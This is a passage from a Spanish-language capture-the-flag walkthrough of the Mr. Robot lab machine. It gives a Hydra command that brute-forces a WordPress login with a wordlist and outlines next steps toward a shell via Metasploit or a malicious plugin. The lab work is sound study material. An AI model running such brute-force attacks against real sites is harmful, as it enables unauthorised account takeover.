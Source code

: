 Haciendo uso de Hydra nuevamente tenemos que en el diccionario estaba la contraseña de este usuario.

{% highlight bash %}
$ hydra 192.168.56.102 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^
:incorrect" -l mich05654 -P sorted.dic
{% endhighlight %}

![](/assets/img/mrRobot16.png){: .image}

> Another key?

Que quieren decirnos acá? EL siguiente paso será comprometer WordPress, para esto usaré MetaSploit FrameWork, si lo deseas puedes crear o usar una shell por medio de la adición de un plugin, etc. Veamos como será usando este Framework.

![Captura 17](/assets/img/mrRobot17.png){: .image}
